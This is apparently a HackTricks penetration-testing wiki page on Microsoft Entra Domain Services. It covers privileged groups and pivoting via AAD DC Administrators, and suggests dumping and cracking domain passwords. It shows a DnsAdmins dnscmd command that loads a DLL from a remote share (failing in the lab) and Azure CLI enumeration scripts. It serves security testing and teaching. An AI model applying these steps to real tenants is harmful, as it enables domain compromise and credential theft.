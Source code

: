 # Az - Microsoft Entra Domain Services

{{#include ../../../../banners/hacktricks-training.md}}

## Domain Services

Microsoft Entra Domain Services allows to deploy an Active Directory in Azure without needing to manage Domain Controllers (actually you don't even have access to them).

Its main goal is to allow you to run legacy applications in the cloud that can't use modern authentication methods, or where you don't want directory lookups to always go back to an on-premises AD DS environment.

Note that in order to synchronize the users generated in Entra ID (and not synchronized from other active directories) to the AD domain service you need to **change the password of the user** to a new one so it can be synchronized with the new AD. Actually, the user isn't synchronized from Microsoft Entra ID to Domain Services until the password is changed.

> [!WARNING]
> Even if you are creating a new active directory domain you won't be able to completely managed it (unless without exploiting some misconfigurations), which means that by default for example you cannot create users in the AD directly. You create them by **synchronizing users from Entra ID.** You can indicate to synchronize all users (even those synced from other on-premise ADs), only cloud users (users created in Entra ID), or even **filter them more**.

> [!NOTE]
> In general, due to the lack of flexibity on the configuration of the new domain and the fact that ADs are usually already on-premise, this is not the main integration between Entra ID and AD, but still interesting to know how to compromise it.

### Pivoting

Members of the generated **`AAD DC Administrators`** group are granted local admin permissions on VMs that are domain-joined to the managed domain (but not in the domain controllers) because they are added into the local administrators group. Members of this group can also use **Remote Desktop to connect remotely to domain-joined VMs**, and are also members of the groups:

- **`Denied RODC Password Replication Group`**: This is a group that specifies users and groups whose passwords cannot be cached on RODCs (Read-Only Domain Controllers).
- **`Group Policy Creators Owners`**: This group allows members to create Group Policies in the domain. However, its members can't apply group policies to users or group or edit existing GPOs, so it's not that interesting in this environment.
- **`DnsAdmins`**: This group allows to manage the DNS settings and was abused in the past to [escalate privileges and compromise the domain](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmin#dnsadmins), however after testing the attack in this environment it was checked that the vulnerability is patched:

```text
dnscmd TDW52Y80ZE26M1K.azure.training.hacktricks.xyz /config /serverlevelplugindll \\10.1.0.6\c$\Windows\Temp\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed:  ERROR_ACCESS_DENIED     5    0x5
```

Note that to grant these permissions, inside the AD the group **`AAD DC Administrators`** group is made a member of the previous groups, and also the GPO **`AADDC Computers GPO`** is adding as Local Administrators all the members of the domain group **`AAD DC Administrators`**.

Pivoting from Entra ID to an AD created with Domain Services is straightforward, just add a user into the group **`AAD DC Administrators`**, access via RDP to any/all the machines in the domain and you will be able to steal data and also **compromise the domain.**

However, pivoting from the domain to Entra ID is not as easy as nothing from the domain is being synchronized into Entra ID. However, always checn the metadata to all the VMs joined as their assigned managed identities might have interesting permissions. Also **dump all the users passwords from the domain** and try to crack them to then login into Entra ID / Azure.

> [!NOTE]
> Note that in the past other vulnerabilities in this managed AD were found that allowed to compromise the DCs, [like this one](https://www.secureworks.com/research/azure-active-directory-domain-services-escalation-of-privilege?utm_source=chatgpt.com). An attacker compromising the DC could very easily maintain persistence without the Azure admins noticing or even being able to remove it.

### Enumeration

```bash
# Get configured domain services domains (you can add more subs to check in more subscriptions)
az rest --method post \
  --url "https://management.azure.com/providers/Microsoft.ResourceGraph/resources?api-version=2021-03-01" \
  --body '{
    "subscriptions": [
      "0ce1297c-9153-425d-3229-f51093614377"
    ],
    "query": "resources | where type == \"microsoft.aad/domainservices\"",
    "options": {
      "$top": 16,
      "$skip": 0,
      "$skipToken": ""
    }
  }'

# Get domain configuration
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/<domain-name>?api-version=2022-12-01&healthdata=true"
## e.g.
az rest --url "https://management.azure.com/subscriptions/0ce1297c-9153-425d-3229-f51093614377/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/azure.training.hacktricks.xyz?api-version=2022-12-01&healthdata=true"

# Based on the VNet assigned to the domain services, you can enumerate the VMs in the domain

subscription_id="0ce1297c-9153-425d-3229-f51093614377"
vnet_name="aadds-vnet"

# Retrieve all VMs in the subscription
vm_list=$(az vm list --subscription "$subscription_id" --query "[].{Name:name, ResourceGroup:resourceGroup}" --output tsv)

# Iterate through each VM to check their VNet connection
echo "VMs connected to VNet '$vnet_name':"
while IFS=$'\t' read -r vm_name resource_group; do
  nic_ids=$(az vm show --subscription "$subscription_id" --name "$vm_name" --resource-group "$resource_group" --query "networkProfile.networkInterfaces[].id" --output tsv)
  
  for nic_id in $nic_ids; do
    subnet_id=$(az network nic show --ids "$nic_id" --query "ipConfigurations[0].subnet.id" --output tsv)
    
    if [[ $subnet_id == *"virtualNetworks/$vnet_name"* ]]; then
      echo "VM Name: $vm_name, Resource Group: $resource_group"
    fi
  done
done <<< "$vm_list"
```

{{#include ../../../../banners/hacktricks-training.md}}
